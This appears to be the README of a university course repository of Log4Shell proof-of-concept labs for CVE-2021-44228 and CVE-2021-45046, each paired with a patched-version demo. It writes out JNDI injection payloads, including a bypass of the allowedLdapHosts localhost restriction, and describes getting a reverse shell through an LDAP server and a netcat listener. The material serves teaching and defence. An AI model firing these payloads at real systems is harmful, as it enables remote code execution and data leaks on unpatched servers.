



# CS4239 Group 5 Log4Shell Proof of Concepts (PoCs) and patch demos

This collection of PoCs and patch demos are a based on this PoC: [Github Link](https://github.com/kozmer/log4j-shell-poc)

CVEs covered:
1. CVE-2021-44228
2. CVE-2021-45046

## Requirements

Needs a system with x86_64 (AKA amd64) chipset.
Needs the following software:
1. Docker
2. docker-compose  

## Instructions to run PoCs and patch demos

All PoCs assume a starting directory which is the root of this repository.

### CVE-2021-44228

#### Background

If an application, usually a web application, used Log4j versions 2.14.1 and below, and directly logged user input, then they are vulnerable to Log4Shell exploits that perform JNDI lookup using Log4j's message lookup functionality, to at best, disclose information to attacker servers or cause Denial of Service (DoS) attacks, and at worst, perform a Remote Code Execution (RCE). This section will demonstrate a RCE PoC, and show how updating Log4j to v2.15.0 prevents the attack.

#### RCE PoC

##### Description

Demonstrates a RCE exploit that is possible on Log4j 2.14.1.

##### Instructions   

1. Run "cve-44228-rce/run.sh" in terminal. 2 more terminals will be spawned.
2. One terminal will be running the attacker LDAP server, the other terminal will be running a netcat listener on port 9001 to listen for incoming connections, and the original terminal (the one that you launched the command in) will be running the vulnerable web server.
  
3. Visit "localhost:8080" with your web browser  
4. Enter "${jndi:ldap://localhost:1389/a}" as Username, Password can be anything
5. Press Login.  
6. Check the terminal that was running the netcat listener. A bash shell into the vulnerable application will now be open!

#### CVE-2021-44228 Patched Demo

##### Description

Demonstrates how the previous RCE exploit fails when the Log4j version that the application uses is updated to 2.15.0, as message lookups are no longer enabled by default.

##### Instructions 

1. Run "cve-44228-patched/run.sh" in terminal. 2 more terminals will be spawned.
2. One terminal will be running the attacker LDAP server, the other terminal will be running a netcat listener on port 9001 to listen for incoming connections, and the original terminal (the one that you launched the command in) will be running the vulnerable web server.
3. Visit "localhost:8080" with your web browser  
4. Enter "${jndi:ldap://localhost:1389/a}" as Username, Password can be anything
5. Press Login.  
6. Notice how the exploit does not work anymore, as the message lookup does not execute.

### CVE-2021-45046

#### Background

Log4j v2.15.0, which patched CVE-2021-44228 by introducing a number of safety features, still had some vulnerabilities that could be exploited. This section will detail PoCs that take advantage of various vulnerabilties. The major vulnerability in Log4j v2.15.0 was that while message lookups were disabled, context lookups were still enabled. Hence if any input from users were saved as context variables, then attackers still had a way to perform lookups on their chosen input. Both PoCs in this section utilize this vulnerability to be able to perform lookups.

This section will demonstrate these PoCs, along with how updating Log4Shell to v2.16.0 and above prevents the attacks.

#### PoC of sending JNDI requests to external servers

##### Description

Log4j v2.15.0 introduced a limitation of JNDI over LDAP to only being able to access hosts on *allowedLdapHosts* property, which only contains localhost by default. This PoC demonstrates a bypass of this limitation on certain systems, in this case Alpine Linux.

##### Instructions 

1. Run "cve-45046-bypass-localhost/run.sh" in terminal. A vulnerable web server will start up in the terminal.
2. Go to `https://webhook.site/` to obtain a webhook URL. It should generate a unique URL.
3. Go to `https://canarytokens.org/generate#`. Select DNS token, and put in the unique URL in second input box. Then, put any message in the last input box.
    
4. Navigate to `https://localhost:8080`. Input the string, `${jndi:ldap://localhost#YOUR_CANARYTOKEN}`. There should be a new DNS request with the memo, "exploited cve-2021-45046" (or any other text message that you put).
    
5. This shows a successful LDAP request to a website that is not locally hosted -- bypassing the localhost restriction implemented in Log4J 2.15.0

#### PoC of RCE

##### Description

Log4j v2.15.0 introduced limitations on classes that are received over LDAP protocol to Java primitive objects by default. This PoC demonstrates a bypass using a Time-of-check to Time-of-use (TOCTOU) attack.

##### Instructions 

1. Run "cve-45046-rce/run.sh" in terminal. 2 more terminals will be spawned.
2. One terminal will be running the attacker LDAP server, the other terminal will be running a netcat listener on port 9001 to listen for incoming connections, and the original terminal (the one that you launched the command in) will be running the vulnerable web server.
3. Visit "localhost:8080" with your web browser  
4. Enter "${jndi:ldap://localhost:1389/a}" as Username, Password can be anything
5. Press Login.  
6. Check the terminal that was running the netcat listener. A bash shell into the vulnerable application will now be open!

#### CVE-2021-45046 Patched Demo

##### Description

Demonstrates how the previous RCE exploit fails when the Log4j version that the application uses is updated to 2.16.0 and above (in this case v2.17.0), as JNDI functionality is now disabled by default, meaning that the JNDI lookups required for successful RCE exploit in the previous case will not run by default.

##### Instructions 

1. Run "cve-45046-patched/run.sh" in terminal. 2 more terminals will be spawned.
2. One terminal will be running the attacker LDAP server, the other terminal will be running a netcat listener on port 9001 to listen for incoming connections, and the original terminal (the one that you launched the command in) will be running the vulnerable web server.
3. Visit "localhost:8080" with your web browser  
4. Enter "${jndi:ldap://localhost:1389/a}" as Username, Password can be anything
5. Press Login.  
6. Notice how the exploit does not work anymore, due to JNDI lookup not being performed. 